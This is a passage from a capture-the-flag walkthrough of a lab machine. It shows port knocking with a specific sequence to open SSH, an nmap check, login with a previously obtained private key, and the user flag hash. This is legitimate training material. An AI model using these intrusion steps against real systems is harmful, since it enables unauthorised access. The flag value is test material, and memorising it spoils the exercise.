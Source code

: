 We can use a number of tools to do this including netcat, nmap and so on. We'll install "knockd" on out attacker box and use the included "knock" program to open the SSH port on the target for us. We can then use the private key file we found earlier to SSH to the target.

First, install the "knockd" package:

> sudo apt install knockd

Next, let's run the program with the sequence against the target:

```
└─$ knock 10.10.10.43 571 290 911
                                                                                                                  
└─$ nmap -sT -p 22 10.10.10.43   
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 08:45 EST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.015s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
                                                             
```

We run nmap after the port knocking and we can see that the SSH port is now open for us.

Let's connect:

```
└─$ ssh -i ~/Downloads/nineveh/amrois.key amrois@10.10.10.43
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.
ED25519 key fingerprint is SHA256:kxSpgxC8gaU9OypTJXFLmc/2HKEmnDMIjzkkUiGLyuI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.43' (ED25519) to the list of known hosts.
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$
```

We can now also grab the user flag.

```
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$ cat user.txt 
44806bd29adc6f53e502713698465550
amrois@nineveh:~$ 
```
